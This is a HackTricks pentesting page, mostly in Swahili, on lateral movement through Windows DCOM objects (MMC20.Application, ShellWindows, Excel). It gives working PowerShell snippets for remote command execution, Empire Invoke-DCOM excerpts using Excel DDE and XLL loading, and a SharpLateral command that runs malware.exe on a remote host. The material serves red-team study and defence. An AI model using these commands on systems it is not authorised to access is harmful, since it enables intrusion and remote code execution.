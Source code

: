 # DCOM Exec

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## MMC20.Application

**Kwa maelezo zaidi kuhusu mbinu hii angalia chapisho asilia kutoka [https://enigma0x3.net/2017/01/05/lateral-movement-using-the-mmc20-application-com-object/](https://enigma0x3.net/2017/01/05/lateral-movement-using-the-mmc20-application-com-object/)**

Distributed Component Object Model (DCOM) objects zina uwezo wa kuvutia kwa mwingiliano wa mtandao na vitu. Microsoft inatoa nyaraka kamili kwa DCOM na Component Object Model (COM), zinazopatikana [hapa kwa DCOM](https://msdn.microsoft.com/en-us/library/cc226801.aspx) na [hapa kwa COM](https://msdn.microsoft.com/en-us/library/windows/desktop/ms694363\(v=vs.85\).aspx). Orodha ya maombi ya DCOM inaweza kupatikana kwa kutumia amri ya PowerShell:
```bash
Get-CimInstance Win32_DCOMApplication
```
The COM object, [MMC Application Class (MMC20.Application)](https://technet.microsoft.com/en-us/library/cc181199.aspx), inaruhusu uandishi wa operesheni za MMC snap-in. Kwa kuzingatia, kitu hiki kina `ExecuteShellCommand` njia chini ya `Document.ActiveView`. Taarifa zaidi kuhusu njia hii inaweza kupatikana [hapa](https://msdn.microsoft.com/en-us/library/aa815396\(v=vs.85\).aspx). Angalia inavyofanya kazi:

Kipengele hiki kinarahisisha utekelezaji wa amri kupitia mtandao kupitia programu ya DCOM. Ili kuingiliana na DCOM kwa mbali kama admin, PowerShell inaweza kutumika kama ifuatavyo:
```powershell
[activator]::CreateInstance([type]::GetTypeFromProgID("<DCOM_ProgID>", "<IP_Address>"))
```
Hii amri inajihusisha na programu ya DCOM na inarudisha mfano wa kitu cha COM. Njia ya ExecuteShellCommand inaweza kisha kuitwa ili kutekeleza mchakato kwenye mwenyeji wa mbali. Mchakato unajumuisha hatua zifuatazo:

Angalia mbinu:
```powershell
$com = [activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application", "10.10.10.10"))
$com.Document.ActiveView | Get-Member
```
Pata RCE:
```powershell
$com = [activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application", "10.10.10.10"))
$com | Get-Member

# Then just run something like:

ls \\10.10.10.10\c$\Users
```
## ShellWindows & ShellBrowserWindow

**Kwa maelezo zaidi kuhusu mbinu hii angalia chapisho la asili [https://enigma0x3.net/2017/01/23/lateral-movement-via-dcom-round-2/](https://enigma0x3.net/2017/01/23/lateral-movement-via-dcom-round-2/)**

Kitu cha **MMC20.Application** kiligundulika kukosa "LaunchPermissions" wazi, kikirudi kwenye ruhusa zinazoruhusu Wasimamizi kupata. Kwa maelezo zaidi, mjadala unaweza kuchunguzwa [hapa](https://twitter.com/tiraniddo/status/817532039771525120), na matumizi ya [@tiraniddo](https://twitter.com/tiraniddo)’s OleView .NET kwa ajili ya kuchuja vitu bila Ruhusa ya Uzinduzi wazi yanapendekezwa.

Vitu viwili maalum, `ShellBrowserWindow` na `ShellWindows`, vilisisitizwa kutokana na ukosefu wa Ruhusa za Uzinduzi wazi. Ukosefu wa kiingilio cha rejista cha `LaunchPermission` chini ya `HKCR:\AppID\{guid}` unaashiria ukosefu wa ruhusa wazi.

###  ShellWindows
Kwa `ShellWindows`, ambayo haina ProgID, mbinu za .NET `Type.GetTypeFromCLSID` na `Activator.CreateInstance` zinasaidia kuunda kitu kwa kutumia AppID yake. Mchakato huu unatumia OleView .NET kupata CLSID ya `ShellWindows`. Mara tu inapoundwa, mwingiliano unaweza kufanyika kupitia mbinu ya `WindowsShell.Item`, ikisababisha mwito wa mbinu kama `Document.Application.ShellExecute`.

Mifano ya amri za PowerShell ilitolewa ili kuunda kitu na kutekeleza amri kwa mbali:
```powershell
$com = [Type]::GetTypeFromCLSID("<clsid>", "<IP>")
$obj = [System.Activator]::CreateInstance($com)
$item = $obj.Item()
$item.Document.Application.ShellExecute("cmd.exe", "/c calc.exe", "c:\windows\system32", $null, 0)
```
### Lateral Movement with Excel DCOM Objects

Lateral movement inaweza kupatikana kwa kutumia DCOM Excel objects. Kwa maelezo ya kina, ni vyema kusoma mjadala kuhusu kutumia Excel DDE kwa ajili ya lateral movement kupitia DCOM kwenye [blogu ya Cybereason](https://www.cybereason.com/blog/leveraging-excel-dde-for-lateral-movement-via-dcom).

Mradi wa Empire unatoa script ya PowerShell, ambayo inaonyesha matumizi ya Excel kwa ajili ya remote code execution (RCE) kwa kubadilisha DCOM objects. Hapa chini kuna vipande kutoka kwa script inayopatikana kwenye [hifadhi ya GitHub ya Empire](https://github.com/EmpireProject/Empire/blob/master/data/module_source/lateral_movement/Invoke-DCOM.ps1), ikionyesha mbinu tofauti za kutumia Excel kwa RCE:
```powershell
# Detection of Office version
elseif ($Method -Match "DetectOffice") {
$Com = [Type]::GetTypeFromProgID("Excel.Application","$ComputerName")
$Obj = [System.Activator]::CreateInstance($Com)
$isx64 = [boolean]$obj.Application.ProductCode[21]
Write-Host  $(If ($isx64) {"Office x64 detected"} Else {"Office x86 detected"})
}
# Registration of an XLL
elseif ($Method -Match "RegisterXLL") {
$Com = [Type]::GetTypeFromProgID("Excel.Application","$ComputerName")
$Obj = [System.Activator]::CreateInstance($Com)
$obj.Application.RegisterXLL("$DllPath")
}
# Execution of a command via Excel DDE
elseif ($Method -Match "ExcelDDE") {
$Com = [Type]::GetTypeFromProgID("Excel.Application","$ComputerName")
$Obj = [System.Activator]::CreateInstance($Com)
$Obj.DisplayAlerts = $false
$Obj.DDEInitiate("cmd", "/c $Command")
}
```
### Vifaa vya Utaftaji wa Kando

Vifaa viwili vinasisitizwa kwa ajili ya kuharakisha mbinu hizi:

- **Invoke-DCOM.ps1**: Skripti ya PowerShell inayotolewa na mradi wa Empire ambayo inarahisisha mwito wa mbinu tofauti za kutekeleza msimbo kwenye mashine za mbali. Skripti hii inapatikana katika hifadhi ya Empire GitHub.

- **SharpLateral**: Kifaa kilichoundwa kwa ajili ya kutekeleza msimbo kwa mbali, ambacho kinaweza kutumika na amri:
```bash
SharpLateral.exe reddcom HOSTNAME C:\Users\Administrator\Desktop\malware.exe
```
## Automatic Tools

* Skripti la Powershell [**Invoke-DCOM.ps1**](https://github.com/EmpireProject/Empire/blob/master/data/module\_source/lateral\_movement/Invoke-DCOM.ps1) inaruhusu kwa urahisi kuita njia zote zilizotajwa za kutekeleza msimbo kwenye mashine nyingine.
* Unaweza pia kutumia [**SharpLateral**](https://github.com/mertdas/SharpLateral):
```bash
SharpLateral.exe reddcom HOSTNAME C:\Users\Administrator\Desktop\malware.exe
```
## References

* [https://enigma0x3.net/2017/01/05/lateral-movement-using-the-mmc20-application-com-object/](https://enigma0x3.net/2017/01/05/lateral-movement-using-the-mmc20-application-com-object/)
* [https://enigma0x3.net/2017/01/23/lateral-movement-via-dcom-round-2/](https://enigma0x3.net/2017/01/23/lateral-movement-via-dcom-round-2/)

{% hint style="success" %}
Jifunze na fanya mazoezi ya AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Jifunze na fanya mazoezi ya GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Angalia [**mpango wa usajili**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **fuata** sisi kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu za hacking kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
